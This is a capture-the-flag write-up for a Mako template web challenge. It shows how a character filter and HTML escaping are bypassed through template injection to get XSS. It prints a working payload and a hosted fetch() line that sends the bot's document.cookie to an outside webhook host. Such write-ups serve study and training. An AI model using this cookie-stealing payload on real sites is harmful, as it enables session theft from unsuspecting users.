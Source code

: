 It uses Mako for templating. Goal is to get the bot's cookie, but we have a couple of filters in place.

These characters are filtered for SSTI gadgets.
```
banned = ["s", "l", "(", ")", "self", "_", ".", "\"", "\\", "import", "eval", "exec", "os", ";", ",", "|"]
```
HTML escaping
```
def escape_html(text):
    """Escapes HTML special characters in the given text."""
    # return text
    return text.replace("&", "&amp;").replace("<", "&lt;").replace(">", "&gt;").replace("(", "&#40;").replace(")", "&#41;")
```
From the filter you can see it doesn't actually block `${}` characters which we can use for python execution.

Because `banned` is passed like this, it is present during render and we can use it to bypass `escape_html` for XSS. Letters in the outer `banned` can also be bypassed with uppercase.
```
 return template.render(name_to_display=name_to_display, banned="&<>()")
```
Host a JS file.
```js
fetch('https://webhook.site/ba988073-9a21-4192-8d72-b1f3a5e6b143/'+document.cookie)
```
Payload:
```
${banned[1]+'SCript SRc=http://webhook%2eSite/ba988073-9a21-4192-8d72-b1f3a5e6b143'+ banned[2] + banned[1] + '/SCript' + banned[2]}
```

Flag: `TFCCTF{769d12568fc45f14056cbabec2421548a839fa464786dc2013b2453dab9c3cbe}`

Solved by: benkyou